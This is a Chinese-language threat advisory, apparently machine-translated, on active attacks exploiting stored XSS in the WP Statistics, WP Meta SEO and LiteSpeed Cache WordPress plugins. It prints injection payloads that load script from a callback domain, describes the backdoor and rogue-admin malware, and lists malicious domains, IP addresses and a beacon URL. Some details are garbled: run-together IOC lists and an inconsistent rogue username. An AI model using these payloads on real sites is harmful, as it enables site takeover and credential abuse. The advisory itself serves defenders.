 #  主动利用WordPress插件中未经认证的存储XSS漏洞   
HackSee安全团队  HackSee   2024-06-01 17:23  
  
我们观察到针对CVE-2024-2194、CVE-2023-6961和CVE-2023-40000这三种高级别cve的主动攻击尝试。这些漏洞存在于各种WordPress插件中，由于输入清理和输出转义不足，容易受到未经身份验证的存储跨站点脚本(XSS)攻击，使攻击者有可能注入恶意脚本。  
  
我们观察到的针对这些漏洞的攻击载荷注入了一个脚本标签，该标签指向托管在外部域上的一个混淆的JavaScript文件。用于针对这些漏洞的脚本是相同的，专注于以下恶意操作:  
1. 创建新的管理员帐户  
  
1. 注入后门  
  
1. 设置跟踪脚本，大概是为了监控受感染的站点  
  
我们已经看到大量的攻击企图来自与自治系统(AS) IP Volume Inc相关的IP地址，其地理位置集中在荷兰。此外，我们已经确定了攻击有效载荷中引用的五个域。在最后的跟踪阶段使用了另外两个域名，它们与之前利用WordPress插件的活动(1和2)相关联。  
## 漏洞细节  
  
cve - 2024 - 2194  
  
WP Statistics插件(14.5及更早版本)通过URL搜索参数暴露给存储的跨站点脚本。  
```
utm_id="><script src="https://{CALLBACK_DOMAIN}/"></script>
```  
  
此漏洞允许未经身份验证的攻击者通过URL搜索参数注入任意web脚本。每当用户访问注入的页面时，就会执行这些脚本。攻击者反复发送包含此有效负载的请求，以确保它出现在访问最多的页面上，并向这些请求添加“utm_id”参数。  
  
该漏洞于2024年3月11日由蒂姆·科恩(Tim Coen)披露。WP统计插件有超过60万的活跃安装。统计数据显示，低于14.5的版本在使用该插件的所有网站中仍有48%保持活跃。  
  
cve - 2023 - 6961  
  
WP Meta SEO插件(版本4.5.12及更早)容易受到通过Referer HTTP头存储的跨站点脚本攻击。  
```
Referer: <script src="https://{CALLBACK_DOMAIN}/"></script>
```  
  
  
攻击者将此有效负载发送到目标站点，特别是发送到生成404响应的页面。WP Meta SEO插件将这个未消毒的标题插入到数据库中以跟踪重定向。当管理员加载404和重定向页面时，该脚本从回调域中提取混淆的JavaScript，并在受害者的浏览器中执行。如果受害者已通过身份验证(例如，WP管理员已登录)，则他们的凭据将被利用以进行后续恶意操作。  
  
该漏洞于2024年4月16日由CERT PL的研究员Krzysztof Zając披露。WP Meta SEO插件的活跃安装量超过2万。统计数据显示，低于4.5的版本在使用插件的所有网站中仍有27%保持活跃。  
  
cve - 2023 - 40000  
  
WordPress的LiteSpeed缓存插件(版本5.7.0.1及更早)容易受到通过'nameservers'和'_msg'参数存储的跨站点脚本的攻击。  
```
result[_msg]=<script src="https://{CALLBACK_DOMAIN}/"></script>
```  
  
当管理员访问任何后端页面时，就会触发XSS漏洞，因为XSS有效负载伪装成管理通知，导致恶意脚本使用其凭据执行后续恶意操作。  
  
这个漏洞是由Patchstack在2024年2月披露的。LiteSpeed缓存插件被广泛使用，有超过500万的活跃安装。统计数据显示，低于5.7的版本在15.7%的使用该插件的网站上仍然有效，这表明有相当多的网站处于危险之中。  
## JavaScript的恶意软件  
  
恶意JavaScript的内容执行以下操作:  
1. 注入恶意PHP后门:  
  
1. 到插件文件中  
  
1. 放入主题文件  
  
1. 创建一个新的管理员帐户:  
  
1. 向服务器的WordPress安装发送一个请求，以创建一个新的管理员帐户  
  
1. 启动跟踪  
  
1. 通过Yandex实现跟踪，无论是通过JavaScript还是跟踪像素  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/M8pOVgDSPVJlxvd0F3dOYK4JKiacoczKcPdSnXe0axOxkZkSfzPvjoD3u03ibl0SZRLc3VvfzQJQsDFe464MaMeA/640?wx_fmt=png&from=appmsg "")  
  
  
图1:恶意JavaScript有效负载的摘录  
  
  
恶意PHP执行以下操作:  
1. 注入跟踪脚本:  
  
1. 递归地搜索wp-load .php，并在wp-config.php中注入以下内容:  
  
```
<script src="https://{TRACKING_DOMAIN}/"></script>
```  
1. 创建一个新的WordPress admin用户  
  
1. 用户名：admim  
  
1. 密码:7 f9szcns6g3aflao39ro  
  
1. 电子邮件：admim@mystiqueapi[.]通讯  
  
1. 追踪受感染的主机  
  
1. 发送一个GET请求到:  
  
```
hxxp://ur.mystiqueapi[.]com/?ur=<$_SERVER['HTTP_HOST']>
```  
- 这通过捕获其HTTP主机信息来跟踪受感染的主机。  
  
## 威胁行为者活动  
  
cve - 2024 - 2194  
  
  
  
  
图2:CVE-2024-2194攻击活动  
  
  
域媒体。cdnstaticjs[。com与利用CVE-2024-2194有关。我们观察到针对此漏洞的攻击来自17个不同的IP地址，主要来自AS202425 (IP Volume Inc.)和AS210848 (Telkom Internet LTD .)，攻击集中来自荷兰。  
  
cve - 2023 - 6961  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/M8pOVgDSPVJlxvd0F3dOYK4JKiacoczKcJKX1OqAD1jHiaZNPNmK16TWlWDOXbTKVQXnDDT3iaicf4T1lB2BmMNiazQ/640?wx_fmt=png&from=appmsg "")  
  
  
图3:CVE-2023-6961攻击活动  
  
  
域idc.cloudiync[。com与CVE-2023-6961漏洞的利用有关。到目前为止，已经有超过50亿的请求试图利用这个漏洞从一个IP地址，这源自自治系统AS202425 (IP Volume Inc.)。此外，自5月16日以来，我们已经观察到media.cdnstaticjs[。com被用于针对此漏洞的攻击载荷。此域也用于针对CVE-2024-2194的攻击。  
  
cve - 2023 - 40000  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/M8pOVgDSPVJlxvd0F3dOYK4JKiacoczKcttfGZ0u2bVA6T3QgTFxsmz9pQHjRSSmicFLnI0EkEdT4hwicJ8MI3ffw/640?wx_fmt=png&from=appmsg "")  
  
  
图4:CVE-2023-40000攻击活动  
  
  
域cloud.cdndynamic[。com, go.kcloudinc[。[.]com和cdn.mediajsdelivery[.]com与CVE-2023-40000漏洞的利用有关。最后观察到的攻击使用域cd .mediajsdelivery[。在4月15日。从那以后，我们只看到cloud.cdndynamic[。com和go.kcloudinc[.]com被用于针对此漏洞的攻击。  
  
与前两个漏洞不同，利用CVE-2023-40000的攻击更多地分布在不同的IP地址和自治系统(AS)上。我们观察到来自1664个不同IP地址的攻击，主要来自AS210848 (Telkom Internet LTD .)和AS202425 (IP Volume Inc.)，攻击主要集中在荷兰。  
### 跟踪领域  
  
域资产。scontentflow[。com是在CVE-2023-6961公开发布后不久注册的，这是idc.cloudiync[.]com的有效负载写入受感染站点的主要域名。根据我们的搜索，包含此有效负载的网页很少，这表明迄今为止该有效负载的感染成功有限。  
  
域名cache.cloudswiftcdn。com是在所有三个cve公开发布之前注册的。引用此域的有效负载与其他观察到的有效负载的结构相似，但增加了40多个额外的主题来尝试后门。根据PublicWWW上的搜索，有超过3000页包含这个脚本。这与较早的注册时间相结合，可能表明使用或感染时间较长。  
## 危害指标(ioc)  
### 域  
  
以下域与针对这些漏洞的利用尝试相关联。  
```
media.cdnstaticjs[.]comcloud.cdndynamic[.]comidc.cloudiync[.]comcdn.mediajsdelivery[.]comgo.kcloudinc[.]comassets.scontentflow[.]comcache.cloudswiftcdn[.]com
```  
### IP地址  
  
以下IP地址与针对这些漏洞的利用尝试相关联。请注意，这个列表并不详尽。  
```
80.82.76[.]21431.43.191[.]22094.102.51[.]14494.102.51[.]9591.223.82[.]150185.7.33[.]129101.99.75[.]17894.242.61[.]21780.82.78[.]133111.90.150[.]154103.155.93[.]120185.100.87[.]144185.162.130[.]23101.99.75[.]215111.90.150[.]123103.155.93[.]244185.209.162[.]247179.43.172[.]148185.159.82[.]103185.247.226[.]37185.165.169[.]62
```  
## 缓解指导  
  
检查已安装的插件，应用任何可用的更新，并删除与可疑插件相关的文件夹。  
  
要小心拥有管理员权限的用户。具体来说，要注意用户名为admin，电子邮件为admin [@]mystiqueapi[.]com的用户。  
  
检查所有文件的意外修改，特别是如果它们包含可疑的脚本。查找以下注入代码:  
```
<script src="hxxps://assets.scontentflow[.]com"</script>
<script src="hxxps://cache.cloudswiftcdn[.]com"</script>
```  
  
寻找任何意外的出站请求，特别是那些导致Yandex跟踪链接或http://ur.mystiqueapi[.]com/?ur。  
  
如果您看到任何这些指标的证据，您的网站已经通过利用这些漏洞之一的目标。  
  
  
  
